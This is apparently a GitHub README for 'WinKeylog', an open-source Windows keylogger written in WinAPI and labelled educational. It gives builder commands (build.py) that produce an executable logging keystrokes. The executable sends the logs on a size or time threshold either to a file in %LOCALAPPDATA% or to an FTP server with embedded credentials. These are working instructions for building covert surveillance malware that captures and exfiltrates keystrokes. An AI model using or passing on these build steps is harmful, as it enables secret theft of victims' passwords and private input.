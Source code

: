 # WinKeylog
 Windows Keylogger

This is open source keylogger for educational purposes. It can send logs to `local file/ftp server`. It fully written in pure winapi.

For make new build you need to run builder:

Make new build build.exe what send logs when it equal or more than 1kb or every 5 minutes (300 seconds) to local file `%LOCALAPPDATA%\keylog.txt`

`build.py 1024 300 file “%“LOCALAPPDATA”%”\keylog.txt build.exe`

Make new build build.exe what send logs when it equal or more than 1kb or every 5 minutes (300 seconds) to FTP server 127.0.0.1 user Anon password Pass

`build.py 1024 300 ftp ftp://Anon:Pass@127.0.0.1/ build.exe`


Source : Unknown